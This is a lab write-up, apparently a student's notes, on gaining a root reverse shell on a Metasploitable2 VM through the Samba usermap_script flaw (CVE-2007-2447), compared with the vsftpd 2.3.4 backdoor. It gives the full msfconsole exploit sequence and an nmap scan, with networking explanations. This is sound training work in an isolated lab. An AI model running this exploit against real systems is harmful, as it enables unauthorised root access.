

# Lab 02: Metasploitable2 - Samba "usermap_script" Exploit

**Date:** 2026-08-08
**Environment:** Parrot OS (attacker) + Metasploitable2 (VMware, Host-only network)

## Objective

Exploit a second, different type of vulnerability (a real coding flaw,
not a planted backdoor) on the same target, to compare exploit types.

## Recon

Reused the same nmap scan from Lab 01:

```
nmap -sV 172.16.159.128
```

Relevant finding this time: ports 139 and 445, both running
`Samba smbd 3.X - 4.X`. Old Samba versions are known to have several
serious vulnerabilities, including this one.

## Vulnerability - Samba usermap_script (CVE-2007-2447)

Samba is the software that lets Linux machines share files/printers
with Windows machines (it speaks Windows' networking protocol).

Older Samba versions had a config option called `username map script`,
which was meant to let an admin run a script to translate usernames
during login (e.g. mapping a Windows username to a Linux one).

The bug: Samba did not properly clean/check what was typed into the
username field before passing it to that script. This meant an
attacker could type shell commands *disguised as a username*, and
Samba would run them directly on the underlying Linux system.

This is what "code injection" means in practice - tricking a program
into running your commands by hiding them inside a field it wasn't
expecting to contain code (in this case, a login username field).

This is a genuine software bug (has an official CVE number), unlike
vsftpd's backdoor below, which was intentional sabotage.

## Vulnerability - vsftpd 2.3.4 Backdoor (for comparison, from Lab 01)

vsftpd is FTP server software (FTP = an old protocol for transferring
files, similar in purpose to a USB drive but over a network).

In 2011, someone compromised the official download source for vsftpd
version 2.3.4 and secretly inserted extra malicious code into it
before anyone caught it. That code was a "backdoor" - if you sent a
specific crafted login attempt, it wouldn't check your password at
all, it would just open a shell (root access) for whoever connected.

This was NOT a coding mistake - it was deliberately planted by an
attacker who compromised the software's distribution. That is the
core difference from the Samba bug above.

| | vsftpd 2.3.4 | Samba usermap_script |
|---|---|---|
| Type | Planted backdoor | Genuine coding flaw (CVE) |
| Cause | Malicious code inserted by attacker | Missing input validation |
| Intent | Deliberate sabotage | Unintended bug |

## Exploit

```
msfconsole
search samba
use exploit/multi/samba/usermap_script
set RHOST 172.16.159.128
set LHOST 172.16.159.1
run
```

Result: a command shell session opened (not Meterpreter - this
module's default payload is a plain reverse shell, `cmd/unix/reverse_netcat`,
so no special Meterpreter syntax is needed, normal Linux commands work
directly).

Verified access:
```
whoami
id
```
Output: `root`, `uid=0(root) gid=0(root)` - full root access, no
privilege escalation needed.



## Networking concepts used in this lab

### LHOST vs RHOST
These are Metasploit's names for the two ends of the connection:
- **RHOST** = "Remote Host" = the target's IP address (the victim,
  Metasploitable2 in this case)
- **LHOST** = "Local Host" = your own attacker machine's IP address
  (needed so the target knows where to send a connection back to,
  for exploits that use a reverse shell)

Simple way to remember: R = "their machine", L = "my machine".

### Where the target IP came from
Logged into the Metasploitable2 VM directly, ran:
```
ifconfig
```
and read the IP address listed under `inet addr` on its active
network interface. That IP (172.16.159.128) is what got used as
RHOST/the nmap scan target.

### Network interfaces on the Parrot OS host - what each one is

| Interface | What it is | Used for |
|---|---|---|
| `lo` | Loopback - a fake internal-only interface every computer has | Machine talking to itself (127.0.0.1), not used for VM labs |
| `eno1` | The Dell OptiPlex's real physical Ethernet port | Connecting to the actual home network / internet - NOT the same network as the VM |
| `vmnet1` | Virtual adapter VMware creates for "Host-only" networks | Lets the host (Parrot OS) reach VMs set to Host-only, like Metasploitable2 - isolated, no internet access at all |
| `vmnet8` | Virtual adapter VMware creates for "NAT" networks | Lets VMs set to NAT reach the internet through the host, but the outside world can't initiate connections into them |

Why `eno1` couldn't be used for LHOST: Metasploitable2 is sitting on
the Host-only virtual network (172.16.159.x, via vmnet1). `eno1` is
on a completely different network (the real home LAN), so there is no
route between it and the target - the target's replies would have
nowhere to go. `vmnet1`'s IP is the one actually connected to the
same virtual "room" as the target.

## How nmap was used

```
nmap -sV 172.16.159.128
```
- `nmap` = the tool, a network scanner
- `-sV` = flag telling it to also detect the *version* of whatever
  software is running on each open port it finds (not just "port 21
  is open" but "port 21 is running vsftpd 2.3.4 specifically")
- `172.16.159.128` = the target IP to scan

This single command is how both vulnerabilities in this lab and Lab 01
were first discovered - it revealed the exact software versions
running, which were then looked up/searched for in Metasploit.

## What I learned

- Two categories of vulnerability: intentionally planted backdoors
  (vsftpd) vs. genuine unintended coding bugs/CVEs (Samba)
- Code injection = tricking software into executing commands hidden
  inside a field it wasn't designed to treat as executable
- LHOST = my IP, RHOST = target IP
- Why `eno1` (real network) can't reach VMs on `vmnet1` (isolated
  virtual network) - different subnets, no route between them
- Meterpreter session vs plain command shell session - both give
  remote access, Meterpreter just has extra built-in tooling
